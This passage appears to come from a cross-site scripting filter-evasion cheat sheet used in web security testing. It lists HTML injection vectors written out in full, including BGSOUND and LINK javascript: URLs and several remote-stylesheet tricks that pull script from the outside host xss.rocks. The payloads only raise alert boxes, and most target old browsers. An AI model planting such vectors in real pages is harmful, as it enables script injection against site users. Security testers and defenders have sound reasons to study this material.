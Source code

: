 
## BGSOUND

    <BGSOUND SRC="javascript:alert('XSS');">

## & JavaScript includes

    <BR SIZE="&{alert('XSS')}">

## STYLE sheet

    <LINK REL="stylesheet" HREF="javascript:alert('XSS');">

## Remote style sheet

Using something as simple as a remote style sheet you can include your XSS as the style parameter can be redefined using an embedded expression. This only works in IE and Netscape 8.1+ in IE rendering engine mode. Notice that there is nothing on the page to show that there is included JavaScript. Note: With all of these remote style sheet examples they use the body tag, so it won't work unless there is some content on the page other than the vector itself, so you'll need to add a single letter to the page to make it work if it's an otherwise blank page:

    <LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">

## Remote style sheet part 2

This works the same as above, but uses a `<STYLE>` tag instead of a `<LINK>` tag). A slight variation on this vector was used
to hack Google Desktop. As a side note, you can remove the end `</STYLE>` tag if there is HTML immediately after the vector to close it. This is useful if you cannot have either an equals sign or a slash in your cross site scripting attack, which has come up at least once in the real world:

    <STYLE>@import'http://xss.rocks/xss.css';</STYLE>

## Remote style sheet part 3

This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying `Link: <http://xss.rocks/xss.css>; REL=stylesheet`) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:

    <META HTTP-EQUIV="Link" Content="<http://xss.rocks/xss.css>; REL=stylesheet">

## Remote style sheet part 4

This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:

    <STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
